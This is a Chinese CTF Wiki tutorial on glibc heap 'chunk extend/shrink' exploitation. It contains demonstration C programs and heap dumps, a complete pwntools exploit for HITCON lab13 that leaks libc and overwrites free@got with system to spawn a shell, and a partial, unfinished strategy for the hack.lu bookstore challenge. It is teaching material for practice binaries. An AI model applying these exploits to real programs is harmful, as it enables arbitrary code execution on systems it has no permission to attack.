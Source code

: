 Chunk Extend/Shrink
===================

介绍
----

chunk extend/shrink 是堆漏洞的一种常见的利用手法，与其他堆漏洞的利用相同，chunk extend/shrink 攻击同样需要有可以控制 malloc_chunk 的漏洞。这种利用方法需要以下的先决条件：

-  程序中存在基于堆的漏洞
-  漏洞可以使得 malloc_chunk 能够被攻击者控制

原理
----

该技术依赖于 ptmalloc(aka glibc) 获取 malloc_chunk 的各种属性的宏。

在 ptmalloc 中，获取 chunk 块大小的操作如下

::

    /* Get size, ignoring use bits */
    #define chunksize(p) (chunksize_nomask(p) & ~(SIZE_BITS))

    /* Like chunksize, but do not mask SIZE_BITS.  */
    #define chunksize_nomask(p) ((p)->mchunk_size)

一种是直接获取 chunk 的大小，不忽略掩码部分，另外一种是忽略掩码部分。

在 ptmalloc 中，获取下一 chunk 块地址的操作如下

::

    /* Ptr to next physical malloc_chunk. */
    #define next_chunk(p) ((mchunkptr)(((char *) (p)) + chunksize(p)))

即使用当前块指针加上当前块大小。

在 ptmalloc 中，获取前一个 chunk 信息的操作如下

::

    /* Size of the chunk below P.  Only valid if prev_inuse (P).  */
    #define prev_size(p) ((p)->mchunk_prev_size)

    /* Ptr to previous physical malloc_chunk.  Only valid if prev_inuse (P).  */
    #define prev_chunk(p) ((mchunkptr)(((char *) (p)) - prev_size(p)))

即通过malloc_chunk->prev_size获取前一块大小，然后使用本 chunk 地址减去所得大小。

在 ptmalloc，判断当前 chunk 是否是use状态的操作如下：

::

    #define inuse(p)
        ((((mchunkptr)(((char *) (p)) + chunksize(p)))->mchunk_size) & PREV_INUSE)

即查看下一 chunk 的 prev_inuse 域，而下一块地址又如我们前面所述是根据当前 chunk 的 size 计算得出的。

更多的操作详见 ``堆相关数据结构`` 一节。简而言之，chunk extend/shrink 利用就是通过对 size/pre_size 域进行控制来实现的“放缩”利用。

一般来说，我们很少见到进行 chunk shrink 的操作。所以这里主要介绍 chunk extend 的利用。

基本示例1
---------

简单来说，该利用的效果是通过更改第一个块的大小来控制第二个块的内容。 **注意，我们的示例都是在64位的程序。如果想在32位下进行测试，可以把8字节偏移改为4字节**\ 。

::

    int main(void)
    {
        void *ptr,*ptr1;
        
        ptr=malloc(0x10);//分配第一个0x10的chunk
        malloc(0x10);//分配第二个0x10的chunk
        
        *(long long *)((long long)ptr-0x8)=0x41;// 修改第一个块的size域
        
        free(ptr);
        ptr1=malloc(0x30);// 实现 extend，控制了第二个块的内容
        return 0;
    }

当两个malloc语句执行之后，堆的内存分布如下

::

    0x602000:   0x0000000000000000  0x0000000000000021 <=== chunk 1
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000021 <=== chunk 2
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000020fc1 <=== top chunk

之后，我们把 chunk1 的 size 域更改为 0x41，0x41 是因为 chunk 的 size 域包含了用户控制的大小和 header 的大小。如上所示正好大小为0x40。在题目中这一步可以由堆溢出得到。

::

    0x602000:   0x0000000000000000  0x0000000000000041 <=== 篡改大小
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000021
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000020fc1 

执行 free 之后，我们可以看到 chunk2 与 chunk1 合成一个 0x40 大小的 chunk，一起释放了。

::

    Fastbins[idx=0, size=0x10] 0x00
    Fastbins[idx=1, size=0x20] 0x00
    Fastbins[idx=2, size=0x30]  ←  Chunk(addr=0x602010, size=0x40, flags=PREV_INUSE) 
    Fastbins[idx=3, size=0x40] 0x00
    Fastbins[idx=4, size=0x50] 0x00
    Fastbins[idx=5, size=0x60] 0x00
    Fastbins[idx=6, size=0x70] 0x00

之后我们通过 malloc(0x30) 得到 chunk1+chunk2 的块，此时就可以直接控制chunk2中的内容，我们也把这种状态称为 overlapping chunk。

::

    call   0x400450 <malloc@plt>
    mov    QWORD PTR [rbp-0x8], rax

    rax = 0x602010

基本示例2
---------

通过之前深入理解堆的实现部分的内容，我们得知处于 fastbin 范围的 chunk 释放后会被置入 fastbin 链表中，而不处于这个范围的 chunk 被释放后会被置于unsorted bin链表中。 以下这个示例中，我们使用 0x80
这个大小来分配堆（作为对比，fastbin 默认的最大的 chunk 可使用范围是0x70）

::

    int main()
    {
        void *ptr,*ptr1;
        
        ptr=malloc(0x80);//分配第一个 0x80 的chunk1
        malloc(0x10); //分配第二个 0x10 的chunk2
        malloc(0x10); //防止与top chunk合并
        
        *(int *)((int)ptr-0x8)=0xb1;
        free(ptr);
        ptr1=malloc(0xa0);
    }

在这个例子中，因为分配的 size 不处于 fastbin 的范围，因此在释放时如果与 top chunk 相连会导致和top chunk合并。所以我们需要额外分配一个chunk，把释放的块与top chunk隔开。

::

    0x602000:   0x0000000000000000  0x00000000000000b1 <===chunk1 篡改size域
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000000
    0x602050:   0x0000000000000000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000000
    0x602090:   0x0000000000000000  0x0000000000000021 <=== chunk2
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000000021 <=== 防止合并的chunk
    0x6020c0:   0x0000000000000000  0x0000000000000000
    0x6020d0:   0x0000000000000000  0x0000000000020f31 <=== top chunk

释放后，chunk1 把 chunk2 的内容吞并掉并一起置入unsorted bin

::

    0x602000:   0x0000000000000000  0x00000000000000b1 <=== 被放入unsorted bin
    0x602010:   0x00007ffff7dd1b78  0x00007ffff7dd1b78
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000000
    0x602050:   0x0000000000000000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000000
    0x602090:   0x0000000000000000  0x0000000000000021
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x00000000000000b0  0x0000000000000020 <=== 注意此处标记为空
    0x6020c0:   0x0000000000000000  0x0000000000000000
    0x6020d0:   0x0000000000000000  0x0000000000020f31 <=== top chunk

::

    [+] unsorted_bins[0]: fw=0x602000, bk=0x602000
     →   Chunk(addr=0x602010, size=0xb0, flags=PREV_INUSE)

再次进行分配的时候就会取回 chunk1 和 chunk2 的空间，此时我们就可以控制 chunk2 中的内容

::

         0x4005b0 <main+74>        call   0x400450 <malloc@plt>
     →   0x4005b5 <main+79>        mov    QWORD PTR [rbp-0x8], rax
     
         rax : 0x0000000000602010

基本示例3
---------

示例3是在示例2的基础上进行的，这次我们先释放 chunk1，然后再修改处于 unsorted bin 中的 chunk1 的size域。

::

    int main()
    {
        void *ptr,*ptr1;
        
        ptr=malloc(0x80);//分配第一个0x80的chunk1
        malloc(0x10);//分配第二个0x10的chunk2
        
        free(ptr);//首先进行释放，使得chunk1进入unsorted bin
        
        *(int *)((int)ptr-0x8)=0xb1;
        ptr1=malloc(0xa0);
    }

两次 malloc 之后的结果如下

::

    0x602000:   0x0000000000000000  0x0000000000000091 <=== chunk 1
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000000
    0x602050:   0x0000000000000000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000000
    0x602090:   0x0000000000000000  0x0000000000000021 <=== chunk 2
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000020f51

我们首先释放chunk1使它进入unsorted bin中

::

         unsorted_bins[0]: fw=0x602000, bk=0x602000
     →   Chunk(addr=0x602010, size=0x90, flags=PREV_INUSE)

    0x602000:   0x0000000000000000  0x0000000000000091 <=== 进入unsorted bin
    0x602010:   0x00007ffff7dd1b78  0x00007ffff7dd1b78
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000000
    0x602050:   0x0000000000000000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000000
    0x602090:   0x0000000000000090  0x0000000000000020 <=== chunk 2
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000020f51 <=== top chunk

然后篡改chunk1的size域

::

    0x602000:   0x0000000000000000  0x00000000000000b1 <=== size域被篡改
    0x602010:   0x00007ffff7dd1b78  0x00007ffff7dd1b78
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000000
    0x602050:   0x0000000000000000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000000
    0x602090:   0x0000000000000090  0x0000000000000020
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000020f51

此时再进行 malloc 分配就可以得到 chunk1+chunk2 的堆块，从而控制了chunk2 的内容。

Chunk Extend/Shrink 可以做什么
------------------------------

一般来说，这种技术并不能直接控制程序的执行流程，但是可以导致 chunk overlapping，所以我们可以完整的控制这个堆块 chunk 中的内容。如果 chunk
存在字符串指针、函数指针等，就可以利用这些指针来进行信息泄漏和控制执行流程。如果不存在类似的域也可以通过控制 chunk header 中的数据来实现 fastbin attack 等利用。

HITCON Trainging lab13
----------------------

基本信息
~~~~~~~~

.. code:: shell

    ➜  hitcontraning_lab13 git:(master) file heapcreator
    heapcreator: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=5e69111eca74cba2fb372dfcd3a59f93ca58f858, not stripped
    ➜  hitcontraning_lab13 git:(master) checksec heapcreator
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/chunk_extend_shrink/hitcontraning_lab13/heapcreator'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

程序为 64 位动态链接程序，主要开启了 Canary 保护与 NX 保护。

基本功能
~~~~~~~~

程序大概是一个自定义的堆分配器，每个堆主要有两个成员：大小与内容指针。主要功能如下

1. 创建堆，根据用户输入的长度，申请对应内存空间，并利用 read 读取指定长度内容。这里长度没有进行检测，当长度为负数时，会出现任意长度堆溢出的漏洞。当然，前提是可以进行
   malloc。此外，这里读取之后并没有设置 NULL。
2. 编辑堆，根据指定的索引以及之前存储的堆的大小读取指定内容，但是这里读入的长度会比之前大 1，所以会\ **存在 off by one 的漏洞**\ 。
3. 展示堆，输出指定索引堆的大小以及内容。
4. 删除堆，删除指定堆，并且将对应指针设置为了 NULL。

利用
~~~~

基本利用思路如下

1. 利用off by one 漏洞覆盖下一个chunk 的 size 字段，从而构造伪造的 chunk 大小。
2. 申请伪造的 chunk 大小，从而产生 chunk overlap，进而修改关键指针。

更加具体的还是直接看脚本吧。

.. code:: python

    #!/usr/bin/env python
    # -*- coding: utf-8 -*-

    from pwn import *

    r = process('./heapcreator')
    heap = ELF('./heapcreator')
    libc = ELF('./libc.so.6')


    def create(size, content):
        r.recvuntil(":")
        r.sendline("1")
        r.recvuntil(":")
        r.sendline(str(size))
        r.recvuntil(":")
        r.sendline(content)


    def edit(idx, content):
        r.recvuntil(":")
        r.sendline("2")
        r.recvuntil(":")
        r.sendline(str(idx))
        r.recvuntil(":")
        r.sendline(content)


    def show(idx):
        r.recvuntil(":")
        r.sendline("3")
        r.recvuntil(":")
        r.sendline(str(idx))


    def delete(idx):
        r.recvuntil(":")
        r.sendline("4")
        r.recvuntil(":")
        r.sendline(str(idx))


    free_got = 0x602018
    create(0x18, "dada")  # 0
    create(0x10, "ddaa")  # 1
    # overwrite heap 1's struct's size to 0x41
    edit(0, "/bin/sh\x00" + "a" * 0x10 + "\x41")
    # trigger heap 1's struct to fastbin 0x40
    # heap 1's content to fastbin 0x20
    delete(1)
    # new heap 1's struct will point to old heap 1's content, size 0x20
    # new heap 1's content will point to old heap 1's struct, size 0x30
    # that is to say we can overwrite new heap 1's struct
    # here we overwrite its heap content pointer to free@got
    create(0x30, p64(0) * 4 + p64(0x30) + p64(heap.got['free']))  #1
    # leak freeaddr
    show(1)
    r.recvuntil("Content : ")
    data = r.recvuntil("Done !")

    free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
    libc_base = free_addr - libc.symbols['free']
    log.success('libc base addr: ' + hex(libc_base))
    system_addr = libc_base + libc.symbols['system']
    #gdb.attach(r)
    # overwrite free@got with system addr
    edit(1, p64(system_addr))
    # trigger system("/bin/sh")
    delete(0)
    r.interactive()

2015 hacklu bookstore
---------------------

.. 基本信息-1:

基本信息
~~~~~~~~

.. code:: shell

    ➜  2015_hacklu_bookstore git:(master) file books    
    books: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3a15f5a8e83e55c535d220473fa76c314d26b124, stripped
    ➜  2015_hacklu_bookstore git:(master) checksec books    
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/chunk_extend_shrink/2015_hacklu_bookstore/books'
        Arch:     amd64-64-little
        RELRO:    No RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

可以看出该程序是动态链接的 64 位程序，主要开启了 Canary 与 NX 保护。

.. 基本功能-1:

基本功能
~~~~~~~~

该程序的主要功能是订书，具体如下

-  最多可以订购两本书。
-  根据编号来选择订购第几本书，可以为每本书添加对应的名字。然而在添加名字处出现了任意长度堆溢出的漏洞。
-  根据编号来删除 order，但是这里只是单纯地 free 掉，并没有置为 NULL，因此会出现 use after free 的漏洞。
-  提交订单，将两本书的名字合在一起。这里由于上面堆溢出的问题，这里也会出现堆溢出的漏洞。
-  此外，在程序退出之前存在一个\ **格式化字符串漏洞**\ 。

这里虽然程序的漏洞能力很强，但是所有进行 malloc 的大小都是完全固定的，我们只能借助这些分配的 chunk 来进行操作。

利用思路
~~~~~~~~

程序中主要的漏洞在于堆溢出和格式化字符串漏洞，但是如果想要利用格式化字符串漏洞，必然需要溢出对应的dest 数组。具体思路如下

1. 利用堆溢出进行 chunk extend，使得在 submit 中 ``malloc(0x140uLL)`` 时，恰好返回第二个订单处的位置。在 submit 之前，布置好堆内存布局，使得把字符串拼接后恰好可以覆盖 dest 为指定的格式化字符串。
2. 通过构造 dest 为指定的格式化字符串：一方面泄漏 \__libc_start_main_ret 的地址，\ **一方面控制程序重新返回执行**\ 。这时，便可以知道 libc 基地址，system 等地址。需要注意的是由于一旦 submit
   之后，程序就会直接直接退出，所以我们比较好的思路就是修改 fini_array 中的变量，以便于达到程序执行完毕后，\ **重新返回我们期待的位置**\ 。这里我们会使用一个trick，程序每次读取选择的时候会读取 128
   大小，在栈上。而程序最后在输出 dest 的时候，之前所读取的那部分选择必然是在栈上的，所以我们如果我们在栈上预先布置好一些控制流指针，那就可以来控制程序的执行流程。
3. 再次利用格式化字符串漏洞，覆盖 free@got 为 system 地址，从而达到任意命令执行的目的。

这里，各个参数的偏移是

-  Fini_array0 : 5+8=13
-  \__libc_start_main_ret : 5+0x1a=31。

::

    00:0000│ rsp  0x7ffe6a7f3ec8 —▸ 0x400c93 ◂— mov    eax, 0
    01:0008│      0x7ffe6a7f3ed0 ◂— 0x100000000
    02:0010│      0x7ffe6a7f3ed8 —▸ 0x9f20a0 ◂— 0x3a3120726564724f ('Order 1:')
    03:0018│      0x7ffe6a7f3ee0 —▸ 0x400d38 ◂— pop    rcx
    04:0020│      0x7ffe6a7f3ee8 —▸ 0x9f2010 ◂— 0x6666666666667325 ('%sffffff')
    05:0028│      0x7ffe6a7f3ef0 —▸ 0x9f20a0 ◂— 0x3a3120726564724f ('Order 1:')
    06:0030│      0x7ffe6a7f3ef8 —▸ 0x9f2130 ◂— 0x6564724f203a3220 (' 2: Orde')
    07:0038│      0x7ffe6a7f3f00 ◂— 0xa35 /* '5\n' */
    08:0040│      0x7ffe6a7f3f08 ◂— 0x0
    ... ↓
    0b:0058│      0x7ffe6a7f3f20 ◂— 0xff00000000000000
    0c:0060│      0x7ffe6a7f3f28 ◂— 0x0
    ... ↓
    0f:0078│      0x7ffe6a7f3f40 ◂— 0x5f5f00656d697474 /* 'ttime' */
    10:0080│      0x7ffe6a7f3f48 ◂— 0x7465675f6f736476 ('vdso_get')
    11:0088│      0x7ffe6a7f3f50 ◂— 0x1
    12:0090│      0x7ffe6a7f3f58 —▸ 0x400cfd ◂— add    rbx, 1
    13:0098│      0x7ffe6a7f3f60 ◂— 0x0
    ... ↓
    15:00a8│      0x7ffe6a7f3f70 —▸ 0x400cb0 ◂— push   r15
    16:00b0│      0x7ffe6a7f3f78 —▸ 0x400780 ◂— xor    ebp, ebp
    17:00b8│      0x7ffe6a7f3f80 —▸ 0x7ffe6a7f4070 ◂— 0x1
    18:00c0│      0x7ffe6a7f3f88 ◂— 0xd8d379f22453ff00
    19:00c8│ rbp  0x7ffe6a7f3f90 —▸ 0x400cb0 ◂— push   r15
    1a:00d0│      0x7ffe6a7f3f98 —▸ 0x7f9db2113830 (__libc_start_main+240) ◂— mov    edi, eax

**！！！待补充！！！**

题目
----

-  2016 Nuit du Hack CTF Quals : night deamonic heap

